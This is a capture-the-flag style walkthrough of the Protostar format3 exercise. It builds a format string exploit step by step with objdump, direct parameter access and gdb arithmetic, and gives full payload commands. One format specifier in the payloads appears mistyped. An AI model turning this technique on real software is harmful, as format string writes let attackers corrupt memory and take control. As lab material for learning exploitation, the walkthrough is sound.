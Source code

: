 This level advances from format2 and requires us to write a specific 4 byte value into the `target` memory address. 
First we find the exact address of the `target` variable:
 
```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$ 
```

We can write the full 4 byte value `0x01025544` using four writes. If we shift the address each time by one byte we should be able to effectively write 
1 byte into target address with each write. The whole process of overwriting the target address should roughly look like this:

```
Memory Address	
0x080496f4        44 00 00 00
0x080496f5           55 00 00 00 
0x080496f6              02 00 00 00
0x080496f7                 01 00 00 00
		  44 55 02 01	
```

To further simplify the process of multiple writes we can use a technique called "Direct Parameter Access" (DPA). It allows to directly address a stack
parameter from within the format string. The DPA is controlled by the "$" qualifier. For example:

```
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
```

This prints "1", because "6$" explicitly addresses the 6th parameter on the stack.

In our case, the input lies as the 12th parameter on the stack:

```
user@protostar:/opt/protostar/bin$ echo AAAA%12\$x | ./format3
AAAA41414141
target is 00000000 :(
```

Now we can start overwriting the target memory by writing into four consecutive addresses and addressing them as `$12`, `$13`, `$14` and `$15` using the DPA:

```
user@protostar:/opt/protostar/bin$ echo `python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08'"`%12\$n%13\$n%14$\n%15\$n | ./format3
��������
target is 10101010 :(
```

We have overwritten the target with `0x10`'s (16 - four 4-byte addresses). We can now adjust the values written by using the `%x` width modifiers.
We can use gdb to calculate the exact values:

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0x44 - 0x10
$1 = 52
(gdb) p 0x55 - 0x44
$2 = 17
(gdb) p 0x102 - 0x55
$3 = 173
(gdb) p 0x101 - 0x02
$4 = 255
(gdb) quit
user@protostar:/opt/protostar/bin$ echo `python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08'"`%52x%12\$n%17x%13\$n%173x%14$\n%255x%15\$n | ./format3
```